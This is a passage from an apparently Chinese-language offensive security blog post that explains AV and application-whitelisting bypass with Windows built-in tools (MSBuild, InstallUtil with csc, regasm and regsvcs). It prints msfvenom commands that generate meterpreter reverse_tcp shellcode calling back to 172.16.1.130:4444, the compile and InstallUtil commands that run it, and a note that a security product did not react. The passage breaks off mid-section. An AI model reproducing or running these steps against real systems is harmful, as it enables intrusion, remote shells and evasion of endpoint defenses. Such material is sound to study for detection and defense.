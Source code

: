 在目标机器上运行

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319>MSBuild.exe "C:\Users\jack.0DAY\Desktop\exec.xml"
```

然后会话上线，某数字卫士无反应，并且正常执行命令

![360数字卫士](https://y4er.com/img/uploads/20190719154312.png)

更多关于msbuild的内容可以参考[三好学生师傅的文章](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

## Installutil.exe&csc.exe

> Installer工具是一个命令行实用程序，允许您通过执行指定程序集中的安装程序组件来安装和卸载服务器资源。此工具与System.Configuration.Install命名空间中的类一起使用。 
>
> 具体参考：[Windows Installer部署](https://docs.microsoft.com/zh-cn/previous-versions/2kt85ked(v=vs.120))

通过msfvenom生成C＃的shellcode
```powershell
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -f csharp
```

下载InstallUtil-Shellcode.cs，将上面生成的shellcode复制到该cs文件中


https://gist.github.com/lithackr/b692378825e15bfad42f78756a5a3260


csc编译InstallUtil-ShellCode.cs

```powershell
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe /platform:x86 /out:D:\test\InstallUtil-shell.exe D:\test\InstallUtil-ShellCode.cs
```

编译生成的文件后缀名无所谓exe dll txt都可以，但只能InstallUtil.exe来触发

InstallUtil.exe执行 反弹shell

```powershell
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U D:\test\InstallUtil-shell.exe
```
参考https://www.blackhillsinfosec.com/how-to-bypass-application-whitelisting-av/

## regasm和regsvcs

regasm和regsvcs都可以用来反弹shell的，而且方式也一样

[下载这个cs文件](https://github.com/3gstudent/Bypass-McAfee-Application-Control--Code-Execution/blob/master/regsvcs.cs) ，然后替换你的shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -f csharp
```

使用sn.exe生成公钥和私钥，如果没有sn命令你可能需要安装vs
